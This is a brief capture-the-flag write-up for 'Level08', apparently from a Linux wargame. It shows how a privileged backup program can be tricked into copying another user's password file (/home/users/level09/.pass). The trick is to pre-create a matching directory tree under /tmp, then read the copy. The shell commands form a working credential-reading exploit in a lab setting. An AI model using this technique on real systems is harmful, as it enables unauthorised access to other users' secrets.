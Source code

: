 # Level08

## Observations

We can run the program to backup a file in the current working directory.

```shell
$ ./level08 .bashrc
$ diff .bashrc ./backups/.bashrc
```

But only for files in pwd.

```shell
$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

It fails because the path ./backups//home/users/level09 doesn't exit.
We just need to run the program with a folder ./backups//home/users/level09 aside.

## Exploit

We can go in /tmp to create the directory ./backups//home/users/level09

```shell
$ cd /tmp
$ mkdir -p ./backups//home/users/level09
$ $HOME/level08 /home/users/level09/.pass
$ cat ./backups/home/users/level09/.pass
```
